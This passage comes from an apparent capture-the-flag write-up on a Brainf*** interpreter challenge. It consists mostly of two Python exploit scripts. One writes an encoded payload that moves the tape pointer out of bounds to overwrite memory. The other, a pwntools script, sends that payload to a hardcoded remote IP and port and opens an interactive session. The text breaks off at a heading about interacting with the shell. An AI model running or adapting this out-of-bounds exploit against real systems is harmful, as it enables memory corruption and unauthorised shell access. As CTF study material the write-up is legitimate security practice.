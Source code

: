 a file for local testing is below; it came it at a mere 838 characters even
with some extra characters for debugging left in, so well within the maximum
of 4000 bytes:  
```  
file1 = open('sample_program', 'wb')

bf_chars = '>]<[,.-+'  
bf_payload = '>' * (0x130 + 0x8) + '.' + '-' * 58  + '>' + '-' * 0x2 + '>' +
'+' * 12

bf_payload += '<' * (8 + 2) + '.' + '>' * 0x10 + '[-' + '<' * 0x10 + '+' + '>'
* 0x10 + ']' + '.' + '<' * 0x10  
bf_payload += '>' + '.' + '>' * 0x10 + '[-' + '<' * 0x10 + '+' + '>' * 0x10 +
']' + '.'  + '<' * 0x10 + '+' * 0x10  
bf_payload += ('>' + '.' + '>' * 0x10 + '[-' + '<' * 0x10 + '+' + '>' * 0x10 +
']' + '.'  + '<' * 0x10) * 4

plain = b'\x40\x41\x42\x43\x44\x45\x46\x47'  
for char in bf_payload:  
	index = bf_chars.find(char)  
	file1.write(chr(plain[index]).encode('ascii'))

file1.close()

```  
I also came up pwntools script to automatically connect to the remote server
and feed in the payload, but in this case, you could easily just copy-paste
the modified brainf*** script and input it manually.  
```  
from pwn import *

#target = remote('localhost', 1337)  
target = remote('193.57.159.27', 28643)

print(target.recvuntil('program:'))

payload = b''

bf_payload = '<' * (0x130 + 0x8) + '.' + '-' * 58  + '<' + '-' * 0x2 + '<' +
'+' * 12

bf_payload += '>' * (8 + 2) + '.' + '<' * 0x10 + '[-' + '>' * 0x10 + '+' + '<'
* 0x10 + ']' + '.' + '>' * 0x10  
bf_payload += '<' + '.' + '<' * 0x10 + '[-' + '>' * 0x10 + '+' + '<' * 0x10 +
']' + '.'  + '>' * 0x10 + '+' * 0x10  
bf_payload += ('<' + '.' + '<' * 0x10 + '[-' + '>' * 0x10 + '+' + '<' * 0x10 +
']' + '.'  + '>' * 0x10) * 4

bf_chars = '<]>[,.-+'  
plain = b'\x40\x41\x42\x43\x44\x45\x46\x47'  
for char in bf_payload:  
	index = bf_chars.find(char)  
	payload += chr(plain[index]).encode('ascii')  
print(payload)

target.sendline(payload)

target.interactive()

```  
### Interacting with the Shell:
